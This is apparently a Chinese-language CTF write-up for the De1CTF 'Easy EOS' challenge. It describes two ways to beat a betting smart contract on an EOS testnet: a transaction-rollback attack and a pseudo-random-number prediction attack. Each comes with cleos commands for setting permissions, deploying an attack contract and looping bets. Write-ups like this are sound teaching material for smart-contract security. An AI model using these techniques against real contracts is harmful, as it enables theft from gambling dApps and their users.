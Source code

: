 >  恭喜Whitzard、$wagger、NoSugar、AAA解出Easy Eos。

## 题目

标题：Easy EOS

作者：Gaia

描述：

```shell
Try to win this game.
account: de1ctf111eos
EOS Jungle2.0 Testnet
You need to win at least 10 times.
You can ask for a flag with the sendmail function. (username: your account, address: your email address)

hint for [Easy EOS]: the num of bet action is in range 0-4. Decompilation is optional.
hint for [Easy EOS]: if you lost，you can't bet anymore with this account.
```



## 答案

### 方法一：交易回滚攻击

经观察，发现`bet action` 在一次交易中完成了猜数字游戏，并且发现若赢了，则users表中win的次数+1；若输了，则users表中lost的次数+1。

可以通过部署合约，通过`inline action`的方式，分别进行猜数字和判断。第一个`action`猜数字，第二个`action`进行判断刚刚是否赢了。若赢了，则通过；若输了，则抛出异常，使整个交易回滚。（耍赖）

攻击方式

```shell
# 设置权限
cleos set account permission gllrgjlqclkp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"gllrgjlqclkp","permission":"eosio.code"},"weight":1}]}' owner -p gllrgjlqclkp@owner
# 编译合约
cd attack4
eosio-cpp -o attack4.wasm attack4.cpp
# 部署合约
cleos set contract gllrgjlqclkp . -p gllrgjlqclkp@active
# 调用makebet方法多次，直到账号win次数大于等于10
cleos push action gllrgjlqclkp makebet '[]' -p gllrgjlqclkp@active
# 请求发送flag
cleos push action de1ctftest11 sendmail '["gllrgjlqclkp", "xxxx@qq.com"]' -p gllrgjlqclkp@active
```

### 方法二：伪随机数攻击

经过反编译得到伪随机数产生的算法，部署相应的合约，在一次交易中，计算将要产生的随机数，然后用该随机数调用目标合约的`bet action`。

攻击方式

```shell
# 设置权限
cleos set account permission btdaciaibmfp active '{"threshold": 1,"keys": [{"key": "EOS7fyKcyPhP5P4S5xXqLzYEFg5bYuYRvxzsX3UJ5W7vAxvXtgYAU","weight": 1}],"accounts":[{"permission":{"actor":"btdaciaibmfp","permission":"eosio.code"},"weight":1}]}' owner -p btdaciaibmfp@owner
# 编译合约
cd attack
eosio-cpp -o attack.wasm attack.cpp
# 部署合约
cleos set contract btdaciaibmfp . -p btdaciaibmfp@active
# 调用makebet方法10次
cleos push action btdaciaibmfp makebet '[]' -p btdaciaibmfp@active
# 请求发送flag
cleos push action de1ctftest11 sendmail '["btdaciaibmfp", "xxxxxx@gmail.com"]' -p btdaciaibmfp@active
```





